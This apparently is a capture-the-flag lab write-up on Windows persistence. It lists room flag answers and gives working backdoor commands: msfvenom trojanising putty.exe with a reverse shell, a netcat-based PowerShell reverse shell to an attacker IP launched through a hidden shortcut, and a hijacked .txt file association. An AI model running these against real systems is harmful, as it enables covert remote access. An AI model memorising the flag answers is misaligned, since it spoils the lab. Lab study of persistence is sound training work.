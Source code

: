 ```markdown
1. flag1? - THM{FLAG_BACKED_UP!}

2. flag2? - THM{IM_JUST_A_NORMAL_USER}

3. flag3? - THM{TRUST_ME_IM_AN_ADMIN}
```

## Backdooring Files

* By modifying files, we can plant backdoors that will get executed whenever the user access them.

* Executable Files:

```cmd
#we can replace a commonly-used executable with payload
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=10.10.53.136 lport=4444 -b "\x00" -f exe -o puttyX.exe
```

* Shortcut Files:

```ps
#create PowerShell script backdoor.ps1
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.53.136 4445"
#include attacker IP
C:\Windows\System32\calc.exe
```

```cmd
#now edit shortcut file properties
#Shortcut > Target - powershell.exe -WindowStyle hidden C:\Users\Administrator\Desktop\backdoor.ps1

#in attacker machine
nc -nvlp 4445
#double-click shortcut

C:\flags\.\flag5
```

* Hijacking File Associations:

```cmd
#hijack file associations
#force system to run a shell whenever a file type is opened

#we can check ProgID for an extension in HKLM\SOFWTARE\Classes\
#we can check for .txt, progID is txtfile
#then, search for subkey for progID
#HKLM\SOFTWARE\Classes\txtfile\shell\open\command

#we can replace the entry here, with a backdoor script
#replace entry with command
#powershell -windowstyle hidden C:\Users\Administrator\Desktop\backdoor2.ps1 %1

#in attacker machine
nc -nvlp 4448
#open text file in Windows machine
C:\flags\.\flag6
```

